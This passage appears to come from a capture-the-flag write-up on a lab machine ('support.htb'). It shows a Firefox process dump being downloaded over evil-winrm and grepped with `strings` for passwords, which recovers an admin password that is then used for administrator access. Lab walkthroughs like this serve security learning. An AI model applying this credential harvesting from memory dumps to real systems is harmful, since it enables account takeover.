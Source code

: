 ```bash
Info: Downloading C:\Users\Chase\Documents\firefox.exe_200425_121800.dmp to firefox.exe_200425_121800.dmp
```

While running that in background, I did `strings` on that to find any password available.
```bash
root@w0lf:~/hacking-tools/evil-winrm# strings firefox.exe_200425_121800.dmp | grep password
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
It looks like admin password so try login with them.

`administrator : 4dD!5}x/re8]FBuZ`[br/](br/)
![cd9776083dc7761c1590362976cb6840.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-heist/af015a897a024595810aa1d045756661.png)[br/](br/)
We own the Root!!

















